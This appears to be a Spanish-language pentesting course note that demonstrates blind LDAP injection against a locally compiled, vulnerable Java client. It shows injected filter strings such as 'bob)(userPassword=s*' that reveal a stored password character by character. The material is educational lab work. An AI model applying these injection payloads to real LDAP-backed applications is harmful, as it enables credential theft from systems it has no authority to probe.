 * Aquí importamos algunos paquetes que se utilizarán en el software

![Texto alternativo](https://johnermac.github.io/assets/images/posts/ewptx/122.png)

Los comentarios de la clase LDAPinfo contienen una explicación de las funcionalidades

![Alt text](https://johnermac.github.io/assets/images/posts/ewptx/123.png)

El código fuente mencionado se puede compilar con:

```
javac -d classes LDAPinfo.java
```

Y luego se puede ejecutar con:

```
java -cp classes LDAPinfo bob
```

![Texto alternativo](https://johnermac.github.io/assets/images/posts/ewptx/124.png)

#### Ejemplo de inyección LDAP ciega <a href="#blind-ldap-injection-example" id="blind-ldap-injection-example"></a>

El cliente que hemos compilado es vulnerable a la inyección de LDAP ciego. Vamos a tratar de usarlo de una manera lifitimate primero

```
java -cp classes LDAPinfo bob # found
java -cp classes LDAPinfo notbob # not found
```

A pesar de que la aplicación imprime solo el número de teléfono, puede ser útil para extraer más datos. Echa un vistazo al ejemplo:

```
java -cp classes LDAPinfo "bob)(userPassword=a*" # nothing found
```

Vamos a enumerar más letras:

```
java -cp classes LDAPinfo "bob)(userPassword=b*" # keep going
```

Al encontrarnos con la letra 's', podemos ver que se muestra el número de teléfono

```
java -cp classes LDAPinfo "bob)(userPassword=s*" # found
# it means that the first letter of the password is "s"
```

Podemos ir más allá hasta encontrar la contraseña completa

```
java -cp classes LDAPinfo "bob)(userPassword=secret"  
```

> Un escenario de explotación de este tipo podría ser perfecto para la extracción de información confidencial Aunque estábamos usando una interfaz LDAP de línea de comandos, tenga en cuenta que la aplicación web funcionaría con LDAP de la misma manera

\
